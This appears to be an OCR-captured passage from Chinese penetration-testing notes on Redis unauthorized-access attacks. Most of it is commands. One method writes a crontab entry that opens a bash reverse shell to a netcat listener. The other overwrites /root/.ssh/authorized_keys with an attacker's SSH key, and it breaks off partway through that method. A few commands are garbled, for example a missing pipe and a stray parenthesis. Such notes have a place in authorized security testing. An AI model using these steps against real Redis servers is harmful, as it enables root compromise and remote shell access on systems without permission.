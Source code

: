         

* * *

##### 2.2.2.1未授权漏洞总结

**未授权漏洞**

###### Redis

**计划任务反弹shell**

利用计划任务执行命令反弹shell

在redis以root权限运行时可以写crontab来执行命令反弹shell-
先在自己的服务器上监听一个端口

    nc -lvnp 6666
    
        

然后执行命令：

    redis-cli -h 192.168.x.x
    192.168.x.x:6379 > set x "\n* * * * * bash -i >& /dev/tcp/192.168.x.x/6666 ...
    192.168.x.x:6379 > config set dir /var/spool/cron/
    192.168.x.x:6379 > config set dbfilename root
    192.168.x.x:6379 > save
    
        

**写入公钥**-
**获取rsa**

    ssh-keygen -t rsa
    
        

将公钥写入foo.txt，注意内容前后要加2个换行

    echo -e "\n\n"; cat /root/ssh/id_rsa.pub; echo -e "\n\n") > foo.txt
    
        

将foo.txt放入键crackit里

    cat foo.txt redis-cli -h IP -x set crackit 
    
        

连接目标

    redis-cli -h Ip
    
        

设置目标的redis的配置文件-
设置数据库备份目录为/root/.ssh/

    192.168.X.X: 6379 > config set dir /root/.ssh/ 
    
        

设置数据库备份文件名为authorized\_keys

    192.168.X.X:6379 > config set dbfilename authorized_keys
    
        